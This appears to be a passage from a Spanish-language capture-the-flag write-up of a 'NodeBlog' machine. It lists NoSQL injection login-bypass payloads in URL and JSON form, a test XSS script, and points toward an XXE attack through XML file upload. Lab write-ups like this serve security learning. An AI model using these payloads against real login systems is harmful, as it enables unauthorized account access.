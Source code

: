   <img src="/assets/images/NodeBlog/LoginBypass.jpg" alt="editorial" width="1000" oncontextmenu="return false;">
</div>
<br>

#### NOSQLi login Bypass básico

[HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

```NOSQL
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```

Tras el bypass de inicio de sesión, observamos que podemos crear y editar publicaciones existentes. Dado que se ejecuta JavaScript en el backend, intentamos un ataque XSS, pero a pesar de la ausencia de restricciones para ingresar etiquetas como: 

```javascript
<script>alert("Hola")</script>
```

No obtuvé ninguna respuesta de ejecución por parte del backend.

Intentando cargar un archivo, recibimos un mensaje de error indicando el uso de **XML**, lo cual abre la posibilidad de un **XXE** si el archivo se utiliza para enviar datos al backend.

<div style="text-align: center;">
  <img src="/assets/images/NodeBlog/XXE1.jpg" alt="editorial" width="1000" oncontextmenu="return false;">
</div>